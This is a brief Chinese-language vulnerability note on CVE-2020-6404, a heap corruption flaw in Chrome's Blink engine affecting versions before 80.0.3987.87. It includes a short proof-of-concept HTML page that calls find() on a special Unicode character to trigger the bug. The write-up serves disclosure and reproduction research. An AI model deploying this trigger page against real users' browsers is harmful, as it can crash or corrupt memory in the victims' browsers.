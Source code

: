 （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞
===================================================

一、漏洞简介
------------

在80.0.3987.87之前的Google
Chrome中，Blink中的不当实现使远程攻击者有可能通过精心制作的HTML页面利用堆破坏。

二、漏洞影响
------------

Google Chrome 80.0.3987.87

三、复现过程
------------

### poc

    <!DOCTYPE html>
    <head>
    <script type="text/javascript">
    document.addEventListener("DOMContentLoaded", function(){
    find(decodeURIComponent('\uFFFC'));
    });
    </script>
    </head>
    <body>
    <legend></legend>
    </body>
    </html>

![](./.resource/(CVE-2020-6404)GoogleChromeBlink缓冲区错误漏洞/media/rId25.png)
